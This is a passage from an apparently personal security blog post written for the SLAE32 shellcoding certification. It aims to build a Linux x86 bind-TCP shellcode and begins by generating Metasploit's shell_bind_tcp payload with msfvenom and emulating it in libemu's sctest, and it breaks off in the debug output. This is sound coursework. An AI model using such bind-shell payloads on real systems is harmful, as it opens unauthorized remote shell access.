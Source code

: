 ```yaml
---
layout: post
title: SLAE32 Assignment1 
---
```

![Alt](https://bohansec.com/assets/SHELLCODING32.png "Pentester Academy")

This blog post has been created for completing the requirments of the SecurityTube (Pentester Academy) x86 Assembly Language and Shellcoding on Linux certification:

[x86 Assembly Language and Shellcoding on Linux](https://www.pentesteracademy.com/course?id=3){:target="_blank"}

Student ID: SLAE-1562

### Objects
{% highlight js %}
Create a Shell_Bind_TCP Shellcode

- Binds to a port
- Execute shell on incoming connection

Port number should be easily configured
{% endhighlight %}

### Prerequisite

* Install libemu
{% highlight js %}
git clone https://github.com/buffer/libemu
sudo apt-get install autoconf
sudo apt-get install libtool
autoreconf -v -i
./configure --prefix=/opt/libemu
autoreconf -v -i
sudo make install
{% endhighlight %}

* Obtain the Kali (x86) Linux 2020.3 
{% highlight js %}
https://images.kali.org/virtual-images/kali-linux-2020.3-vmware-i386.7z
{% endhighlight %}

### Step1 - Disassemble the linux/x86/shell_bind_tcp from Metasploit
To create our own bind TCP shell, we need to know each system calls the shell uses. So, we will disassemble one of the bind shells from Metasploit and take a look at the system calls it uses.

* Go to the Libemu install path, using sctest to disassemble the linux/x86/shell_bind_tcp
{% highlight js %}
msfvenom -p linux/x86/shell_bind_tcp -f raw | ./sctest -vvv -Ss 100000 
kali@kali:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell_bind_tcp -f raw | ./sctest -vvv -Ss 100000  
verbose = 3
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes

[emu 0x0x155a630 debug ] cpu state    eip=0x00417000
[emu 0x0x155a630 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x155a630 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x155a630 debug ] Flags: 
[emu 0x0x155a630 debug ] cpu state    eip=0x00417000
[emu 0x0x155a630 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000